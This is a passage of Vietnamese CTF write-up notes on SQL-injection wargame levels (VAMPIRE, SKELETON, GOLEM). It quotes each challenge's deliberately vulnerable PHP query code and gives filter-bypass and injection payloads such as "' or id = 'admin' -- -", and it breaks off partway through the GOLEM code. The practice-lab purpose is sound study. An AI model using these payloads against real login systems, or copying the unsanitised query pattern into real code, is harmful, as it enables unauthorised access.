 Filter: admin '

Cái này chỉ filter chữ admin nên ta có thể viết hoa

payload = AdMin

## VAMPIRE

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>php
```

Câu này giống câu trên khác mỗi nó sẽ lowcase chữ admin rồi thay admin = "" nên payload sẽ là `AdadminMin`

## SKELETON

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

Filter: \_ . ()

Câu này chỉ cần id=admin là được&#x20;

`payload = ' or id = 'admin' -- -`

## GOLEM

```php
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
```